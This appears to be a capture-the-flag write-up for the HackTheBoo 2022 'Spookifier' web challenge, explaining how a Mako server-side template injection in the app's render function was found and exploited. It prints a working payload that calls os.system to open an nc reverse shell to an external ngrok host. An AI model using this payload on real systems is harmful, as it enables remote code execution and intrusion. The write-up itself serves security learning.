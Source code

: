 ```yaml
---
description: 2022 HTB HackTheBoo CTF - Web - Spookifier Writeup
---
```


# Web - Spookifier

As I did with Evaluation Deck, I was skimming though the source code that you get when you start this challenge and saw something that stood out to me. Mako was being imported. Now when you have done enough web CTF challenges and worked doing web attacks before you will begin to pick up on things you've seen or read before and Mako is one I remember reading about on HackTricks' server side template injection (SSTI) page, linked [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python).

Now that I knew what the attack method was I needed to find where to exploit it. This took a quick second as I read through the source code and found where it was in the generate\_render function, that you can see in the code block below.

```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```

The injection point would be at {3} as the rest were converting our text to special characters that wouldn't be injected.&#x20;

After some quick googling to find some payloads and some trial and error I got a reverse shell using nc and ngrok, as the the website was not on a VPN. The final payload for this was:

```
${self.module.runtime.exceptions.traceback.linecache.os.system("nc 2.tcp.ngrok.io 16299 -e sh")}
```

Once this was input I got a reverse shell back, as seen below, and the rest was history.

<figure><img src="../../.gitbook/assets/HTBctfSpookifier.PNG" alt=""><figcaption></figcaption></figure>

GGs
